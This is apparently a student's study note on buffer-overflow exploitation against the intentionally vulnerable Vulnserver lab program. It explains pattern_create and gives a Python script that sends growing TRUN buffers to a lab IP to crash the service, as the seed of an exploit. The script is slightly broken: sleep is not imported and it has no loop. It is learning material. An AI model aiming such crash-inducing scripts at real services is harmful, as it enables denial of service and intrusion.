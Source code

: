 
# Finding the Offset w/ Pattern Create
Now that we know our offset from [fuzzing](/PEH/buffer-overflows/fuzzing.md) the program, we can use [pattern create](cybersecurity/tools/exploitation/pattern-create.md) to help fine-tune our exploit script and payload.

**![ See Pattern Create](cybersecurity/tools/exploitation/pattern-create.md)
** (relative)
[Pattern Create](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/pattern-create.md) (GitHub repo)**
## Finding the **EXACT** Address
Now that we've created a buffer string with `pattern_create` we can copy paste our fuzzing script into a new script (which will become our exploit as we fine tune it).
```python
import sys, socket

# Create the buffer of 'A' characters
buffer = "A" * 100

try:
	# Build the payload by appending the TRUN command to the buffer
	payload = "TRUN /.:/" + buffer

	# Create, open, and connect to the socket (connecting to target)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.35',9999))

	# Send the payload to target
	print ("[+] Sending the payload...\n" + str(len(buffer)))
	s.send(payload)
	
	# Close connection and what 1 second
	s.close()
	sleep(1)

	# (if we haven't crashed) increase buffer length by 100 bytes & try again
	buffer = buffer + "A"*100
except:
	# When the target crashes, print the number of bytes it took
	print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
	sys.exit()
```

> [!Resources]
> -  [Vulnserver](https://thegreycorner.com/vulnserver.html) 
> - [Immunity Debugger](https://www.immunityinc.com/products/debugger/) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
> - My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)

